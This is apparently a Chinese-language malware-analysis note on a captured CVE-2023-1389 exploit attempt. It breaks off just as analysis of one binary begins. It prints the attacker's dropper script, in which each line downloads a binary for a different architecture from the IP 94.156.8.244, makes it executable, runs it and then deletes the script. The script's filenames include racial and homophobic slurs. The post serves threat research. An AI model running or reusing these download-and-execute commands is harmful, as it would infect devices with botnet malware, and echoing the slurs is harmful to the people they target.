 # replicate cve-2023-1389

起因是无意中捕捉到以下 exp 尝试

![02de7bcc29e256c393181d6a5d837fae](E:\Pictures\markdown\02de7bcc29e256c393181d6a5d837fae.png)

url 解码后得到清晰内容：

![image-20240410205738443](E:\Pictures\markdown\image-20240410205738443.png)

经查询该 poc 的利用方式与 [cve-2023-1389](https://nvd.nist.gov/vuln/detail/cve-2023-1389) 高度相似，可以主动获取载荷样本分析一下，载荷脚本 `tenda.sh` 内容如下：

```shell
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O lol http://94.156.8.244/mips; chmod +x lol; ./lol tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O lmao http://94.156.8.244/mpsl; chmod +x lmao; ./lmao tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O faggot http://94.156.8.244/x86_64; chmod +x faggot; ./faggot tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O gay http://94.156.8.244/arm; chmod +x gay; ./gay tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O retard http://94.156.8.244/arm5; chmod +x retard; ./retard tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O nigger http://94.156.8.244/arm6; chmod +x nigger; ./nigger tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O shit http://94.156.8.244/arm7; chmod +x shit; ./shit tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O nigga http://94.156.8.244/i586; chmod +x nigga; ./nigga tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O kekw http://94.156.8.244/i686; chmod +x kekw; ./kekw tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O what http://94.156.8.244/powerpc; chmod +x what; ./what tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O kys http://94.156.8.244/sh4; chmod +x kys; ./kys tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O shiteater http://94.156.8.244/m68k; chmod +x shiteater; ./shiteater tplink
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O blyat http://94.156.8.244/sparc; chmod +x blyat; ./blyat tplink
rm $0
```

尝试小溯了一下这个 `94.156.8.244`

![image-20240410205921972](E:\Pictures\markdown\image-20240410205921972.png)

目前没有什么有效信息，但是其中针对不同系统的不同 binary 文件倒是可以尝试获取一下，这里就以 `wget -O faggot http://94.156.8.244/x86_64` 为例

## main

基础信息如下：
